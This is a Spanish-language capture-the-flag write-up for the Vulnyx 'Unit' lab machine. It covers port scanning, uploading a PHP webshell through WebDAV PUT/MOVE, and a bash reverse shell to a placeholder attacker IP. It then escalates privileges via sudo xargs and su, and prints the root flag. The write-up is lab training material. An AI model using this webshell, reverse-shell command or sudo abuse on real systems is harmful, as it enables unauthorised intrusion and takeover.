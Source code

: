 ```yaml
---
title: Vulnyx - Unit
author: estx
date: 2024-04-29 12:10:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'File Upload', 'Binary Abusing']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Unit/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **Information Leakage, Local Port Forwarding**

### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.69	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.69 -oG ports

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p22,80,8080 -sCV 192.168.100.69 -oN versions

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-title: 415 Unsupported Media Type
|_http-server-header: nginx/1.22.1
8080/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
| http-methods: 
|_  Potentially risky methods: PUT MOVE
|_http-title: 415 Unsupported Media Type
```

c. Al visitar el sitio web sale un mensaje de `Unsupported Media Type`. En el output del comando anterior vemos que existen dos métodos HTTP `PUT` y `MOVE`

* Si consultamos en [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav) vemos que existen algunas vulnerabilidades al tener los dos métodos activos.

d. Si subimos algunos archivos con diferentes extensiones no nos dejará, pero, al subir un archivo `.txt` nos deja

```bash
❯ curl -T 'test.txt' 'http://192.168.100.69:8080/'
❯ curl -s -X GET 'http://192.168.100.69:8080/test.txt'
Hola
```

* Lo que haremos es subir una webshell en php con la extensión `.txt`, luego, cambiaremos la extensión con `MOVE`

```bash
❯ cat shell.txt
<?php system($_GET['cmd']); ?>

❯ curl -T 'test.txt' 'http://192.168.100.69:8080/'
❯ curl -X MOVE --header 'Destination:http://192.168.100.69:8080/shell.php' 'http://192.168.100.69:8080/shell.txt'
```

e. Con esto nos entablamos una reverse shell

```bash
❯ curl -s -X GET "http://192.168.100.69:8080/shell.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/[IP Atacante]/4443%200>%261'"
------------------------------------------------------------------------
❯ nc -lvnp 4443
www-data@unit:~/unit$
```

### Escalada de Privilegios 💹

a. Ahora realizamos un tratamiento de la TTY en la reverse shell

```bash
www-data@unit:~/unit$ script /dev/null -c bash
www-data@unit:~/unit$ ^Z
[1]  + 44624 suspended  nc -lvnp 4443
❯ stty raw -echo;fg
[1]  + 44624 continued  nc -lvnp 4443
                                     reset xterm

www-data@unit:~/unit$ export TERM=xterm-256color
www-data@unit:~/unit$ source /etc/skel/.bashrc
```

b. Listamos los permisos a nivel de sudoers de este usuario

```bash
www-data@unit:~/unit$ sudo -l

User www-data may run the following commands on unit:
    (jones) NOPASSWD: /usr/bin/xargs
```

* En [GTOFBins] vemos una forma de escalar privilegios para convertirnos en el usuario `jones`

```bash
www-data@unit:~/unit$ sudo -u jones /usr/bin/xargs -a /dev/null bash
jones@unit:/var/www/unit$
```

c. Vemos los permisos a nivel de sudoers de este usuario

```bash
jones@unit:/var/www/unit$ sudo -u root /usr/bin/su root
root@unit:/var/www/unit# cat /root/root.txt 
0d65e83f34a9f15f04ca3ec89cc25595
```

### Extras 🌟

1. El archivo de configuración de `nginx` se encuentra en `/etc/nginx/sites-available/default`

```bash
if ($request_uri !~ ^/[^?]*\.txt(?:\?.*)?$) {
    return 415;
}
```

> La regex `^/[^?]*\.txt(?:\?.*)?$` se encarga de reconocer si la url termina en .txt, caso contrario, devuelve el código de estado `415: Unsupported Media Type`
{: .prompt-info }

2. Una forma de fuzzing para saber que archivos podemos subir o no se haría así

```bash
❯ wfuzz -c -t 10 --hc=415 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt "http://192.168.100.69:8080/a.FUZZ"

==============================================================
ID           Response   Lines    Word    Chars    Payload
==============================================================
000000003:   404        7 L      11 W    153 Ch    "php"
000000007:   404        7 L      11 W    153 Ch    "txt"
```

* Con esto sabemos que podemos subir archivos `.php` o `.txt`, sin embargo, en este caso no se pueden subir archivos `.php` directamente, si no, se debe cambiar la extensión después.
